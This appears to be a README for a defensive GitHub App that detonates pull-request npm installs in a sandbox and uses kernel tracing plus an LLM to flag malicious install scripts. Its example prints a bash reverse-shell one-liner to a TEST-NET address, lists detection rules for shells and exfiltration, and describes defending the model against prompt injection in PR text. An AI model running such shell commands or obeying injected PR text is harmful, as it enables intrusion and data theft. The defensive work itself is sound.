

# PR Detonator

**Static scanners read code. PR Detonator watches it run.**

A GitHub App that, on every pull request, runs the PR's `npm install` inside a disposable,
hardened sandbox, traces what the code *actually does* at the kernel level with eBPF
(Tetragon), and asks a Meta model to compare that runtime behavior with what the PR *claims*
to do. A PR titled "Fix typo in README" that opens a raw-IP connection during `postinstall`
gets a failing check that blocks the merge, plus a forensic comment explaining why.

## Example

A PR titled **"Add install-time telemetry opt-out"** adds a script that base64-decodes and
spawns a reverse shell. PR Detonator's comment:

> ## PR Detonator: 🛑 Blocked
> | | |
> |---|---|
> | **Stated intent** | Add install-time telemetry opt-out to disable anonymous usage telemetry during CI installs. |
> | **Observed behavior** | During npm install the postinstall script spawned an interactive bash reverse shell connecting to raw IP 203.0.113.10:4444. |
>
> | Severity | Rule | Evidence |
> |---|---|---|
> | 🔴 critical | `EXEC_INTERACTIVE_SHELL` | /dev/tcp socket redirect: `/usr/bin/bash -c "bash -i >& /dev/tcp/203.0.113.10/4444 0>&1"` |
> | 🟠 high | `NET_RAW_IP` | bash connected to 203.0.113.10:4444 with no DNS lookup |
>
> **Process tree:** `npm install → sh -c "node scripts/telemetry-optout.js" → node → bash -c "bash -i >& /dev/tcp/…"`

## Architecture



1. **Brain** (Modal): verifies the webhook, creates an in-progress check, and spawns a job
   that fetches the PR metadata and diff and calls the Chamber.
2. **Chamber** (VM): clones the exact head SHA on the host, runs `npm install` in a container
   with no capabilities, a read-only root, uid 10001, and egress rules that block cloud metadata, private
   ranges, and the host. Tetragon records every exec and TCP connect attempt; events are
   attributed to the container by ID. The sandbox's only resolver is a logging dnsmasq on
   the bridge (direct port-53 traffic is rejected), so each connect is named with the answer
   the sandbox actually got.
3. **Rules** turn kernel facts into findings (`NET_RAW_IP`, `EXEC_NET_TOOL`,
   `EXEC_INTERACTIVE_SHELL`, `EXEC_DECODE_PIPE`, ...).
4. **The model** (Meta `muse-spark-1.3`, structured JSON output) compares stated intent with
   observed behavior and writes the explanation.
5. **Verdict** = `max(rule severity, model severity)` → check conclusion + PR comment. Branch
   protection turns a failing check into a blocked merge.
6. **The dependency did it**: the kernel records the directory npm runs each install script
   in (`node_modules/<pkg>`, set before any package code runs), so a Dependabot-style bump
   whose new version is malicious gets blamed on the bumped line, naming the package (E8).
7. **Prompt screening**: Llama Prompt Guard 2 scores the PR text in parallel. In our
   validation it caught explicit jailbreaks but not injections embedded in PR text, so it
   only stops the Intent Contract from trusting flagged text and never decides a verdict.
8. **Guilty line**: when a PR is blocked, code walks the flagged process up to the npm
   lifecycle script that started it and posts an inline review comment on the exact diff line
   (and, if that script ran a file from the PR, on the line there that spawned the payload).
   The model only adds a one-sentence "what it does", decoding obfuscation: for the E5
   reverse shell it decodes the base64 to `bash -i >& /dev/tcp/203.0.113.10/4444 0>&1`.

## Why it's hard to fool

- **The AI can explain, but it can't be talked out of kernel facts.** PR title, body, and
  diff are attacker-controlled, so the model only *escalates*: deterministic rules set a
  floor it can never lower. The prompt fences untrusted content as data, and attempts to
  break out of those fences are defanged. In our prompt-injection test, the model flagged the
  injection on its own, and the rules would have blocked the PR either way.
- **Ground truth, not guesses.** `tcp_connect` is traced on the SYN, so even a connection to
  an unreachable address is captured.
- **No secrets in the blast radius.** The sandbox gets no tokens and no host environment;
  public repos are cloned anonymously. The VM has no IAM role and IMDSv2 with hop limit 1.
  Private repos are cloned on the host with a token that can only read that one repo, sent
  over TLS to a certificate the Brain pins.
- **Bait, not secrets.** The sandbox's home holds fake credentials (`~/.npmrc`, AWS, SSH,
  git); an install script that opens one is flagged.
- **Only TCP leaves, and all of it is traced.** UDP, ICMP and DNS to public resolvers are
  blocked and logged; exfil services resolve to a sinkhole.
- **Spoof-resistant naming.** An IP is named only by the sandbox's own lookups, under the
  name it *asked for*: `evil.example` CNAME'd to `registry.npmjs.org` is still reported as
  `evil.example`. With no lookup, it's a raw-IP connect. A Brain-side fallback only accepts
  reverse DNS names that forward-confirm, so a PTR record can't claim `registry.npmjs.org`.
- **Flood-resistant telemetry.** Repeated events are collapsed, and if caps are still hit
  the result can never be "Clean".
- **Every rendered string is escaped.** Process args, domains, and model output are rendered
  as HTML entities: no markdown, links, `@mentions`, or fake bot markers.
- **Unfinished means unverified.** A timeout or error is never reported as success.

## Results

**Evaluation (122 real detonations, scored 2026-11-02 at commit `04b7c25`,
[details](eval/README.md)):** **0 of 104 popular packages blocked** (35 of which run install
scripts: puppeteer, electron, prisma, cypress, re2, ...); **16 of 16 simulated install-time
attacks blocked**; and **defanged reconstructions of two real incidents, ua-parser-js (2021)
and the Shai-Hulud npm worm (2025), both blocked and blamed on the version-bump line**. Muse
decoded the payload in 5/5 obfuscated attacks and named the right dependency in 2/2. Cost
~$0.015 per PR. Scaling to 104 packages surfaced one false positive (a dependency's nested
`npm` reading `~/.npmrc`), now fixed. Rules alone block 15 of 16 attacks; the model catches
the last (exfil to a resolvable domain).

End-to-end on real GitHub, real Chamber, real model ([demo repo](https://github.com/pr-detonator-demo/demo-target/pulls)):

| Scenario | Result |
|---|---|
| README change | ✅ Clean |
| Add `lodash` | ✅ Clean (registry traffic only) |
| Add `esbuild` (postinstall binary check) | ✅ Clean, no false positive |
| Add `puppeteer` (downloads Chrome from a Google CDN) | ✅ Clean: CDN named by DNS capture, explained by the Intent Contract |
| "Typo fix" that exfiltrates `env` to a raw IP | 🛑 Blocked: `EXEC_NET_TOOL`, `NET_RAW_IP` |
| Base64-obfuscated reverse shell | 🛑 Blocked (critical): `EXEC_INTERACTIVE_SHELL` |
| Exfil + prompt injection in PR body and `package.json` | 🛑 Blocked, injection flagged |
| Install that hangs forever | 🛑 Could not verify (timeout fails closed) |

Detonations take 3–8 s; a full check completes in well under a minute. Demo payloads target
only TEST-NET-3 (`203.0.113.10`), so connect attempts are traced and go nowhere.

## Layout

```
shared/    Brain↔Chamber contract (Pydantic) and HMAC signing
brain/     Modal app: webhook, GitHub client, rules, enrichment, LLM, verdict, report
chamber/   VM service: server, detonation, Tetragon telemetry, policies, sandbox, provisioning
tests/     unit + integration tests against recorded real fixtures (Tetragon, model)
demo/      scenario payloads for the demo repo
```

## Running it

- **Tests:** `python -m pytest` (170+ tests; fixtures recorded from real Tetragon and model output)
- **Chamber:** on Ubuntu 22.04+ with BTF: `sudo bash chamber/provision/setup.sh`
  (installs Tetragon, egress rules, sandbox image, and the systemd service; generates the HMAC secret)
- **Brain:** create Modal secrets `github-app`, `llama`, `chamber`, `detonator-config`
  (see `.env.example`), then `modal deploy -m brain.app` and point the GitHub App webhook at
  the printed URL.

## Scope and limits

npm only; detects unexpected outbound connections and suspicious process spawns during
install. The Brain→Chamber link is HMAC-signed HTTP, so private repos are refused (neutral)
until TLS is added. One detonation at a time. Next steps: HTTPS on the Chamber, base-vs-head
differential detonation, kill-on-detect via Tetragon enforcement, pip support.
